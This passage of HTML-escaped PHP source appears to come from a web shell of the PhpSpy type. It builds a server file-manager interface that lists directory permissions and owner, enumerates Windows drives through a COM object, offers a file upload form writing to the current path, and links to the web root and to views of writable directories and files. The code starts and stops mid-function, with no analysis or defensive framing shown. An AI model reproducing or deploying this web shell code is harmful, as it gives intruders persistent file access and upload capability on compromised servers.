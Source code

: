 	}while(src.parentNode)

	$('inputnav').style.display = "none";
	$('pathnav').style.display = "";
}
&lt;/script&gt;
&lt;div style="background:#eee;margin-bottom:10px;"&gt;
	&lt;table id="pathnav" width="100%" border="0" cellpadding="5" cellspacing="0"&gt;
		&lt;tr&gt;
			&lt;td width="100%"&gt;&lt;?php echo $cwd_links.' - '.getChmod($nowpath).' / '.getPerms($nowpath).getUser($nowpath);?&gt; (&lt;?php echo $dir_writeable;?&gt;)&lt;/td&gt;
			&lt;td nowrap&gt;&lt;input class="bt" id="jumpto" name="jumpto" value="Jump to" type="button"&gt;&lt;/td&gt;
		&lt;/tr&gt;
	&lt;/table&gt;
	&lt;table id="inputnav" width="100%" border="0" cellpadding="5" cellspacing="0" style="display:none;"&gt;
	&lt;form action="" method="post" id="godir" name="godir"&gt;
		&lt;tr&gt;
			&lt;td nowrap&gt;Current Directory (&lt;?php echo $dir_writeable;?&gt;, &lt;?php echo getChmod($nowpath);?&gt;)&lt;/td&gt;
			&lt;td width="100%"&gt;&lt;input name="view_writable" value="0" type="hidden" /&gt;&lt;input class="input" name="dir" value="&lt;?php echo $nowpath;?&gt;" type="text" style="width:99%;margin:0 8px;"&gt;&lt;/td&gt;
			&lt;td nowrap&gt;&lt;input class="bt" value="GO" type="submit"&gt;&lt;/td&gt;
		&lt;/tr&gt;
	&lt;/form&gt;
	&lt;/table&gt;
&lt;?php
	if (IS_WIN && IS_COM) {
		$obj = new COM('scripting.filesystemobject');
		if ($obj && is_object($obj) && $obj-&gt;Drives) {
			echo '&lt;div class="drives"&gt;';
			$DriveTypeDB = array(0 =&gt; 'Unknow',1 =&gt; 'Removable',2 =&gt; 'Fixed',3 =&gt; 'Network',4 =&gt; 'CDRom',5 =&gt; 'RAM Disk');
			$comma = '';
			foreach($obj-&gt;Drives as $drive) {
				if ($drive-&gt;Path) {
					p($comma.'&lt;a href="javascript:godir(\''.$drive-&gt;Path.'/\');"&gt;'.$DriveTypeDB[$drive-&gt;DriveType].'('.$drive-&gt;Path.')&lt;/a&gt;');
					$comma = '&lt;span&gt;|&lt;/span&gt;';
				}
			}
			echo '&lt;/div&gt;';
		}
	}
?&gt;
&lt;/div&gt;
&lt;?php
	$findstr = $_POST['findstr'];
	$re = $_POST['re'];
	tbhead();
	p('&lt;tr class="alt1"&gt;&lt;td colspan="7" style="padding:5px;line-height:20px;"&gt;');
	p('&lt;form action="'.$self.'" method="POST" enctype="multipart/form-data"&gt;&lt;div style="float:right;"&gt;&lt;input class="input" name="uploadfile" value="" type="file" /&gt; &lt;input class="bt" name="doupfile" value="Upload" type="submit" /&gt;&lt;input name="uploaddir" value="'.$nowpath.'" type="hidden" /&gt;&lt;input name="dir" value="'.$nowpath.'" type="hidden" /&gt;&lt;/div&gt;&lt;/form&gt;');
	p('&lt;a href="javascript:godir(\''.$_SERVER["DOCUMENT_ROOT"].'\');"&gt;WebRoot&lt;/a&gt;');
	p(' | &lt;a href="javascript:godir(\'.\');"&gt;ScriptPath&lt;/a&gt;');
	p(' | &lt;a href="javascript:godir(\''.$nowpath.'\');"&gt;View All&lt;/a&gt;');
	p(' | View Writable ( &lt;a href="javascript:godir(\''.$nowpath.'\',\'dir\');"&gt;Directory&lt;/a&gt;');
	p(' | &lt;a href="javascript:godir(\''.$nowpath.'\',\'file\');"&gt;File&lt;/a&gt; )');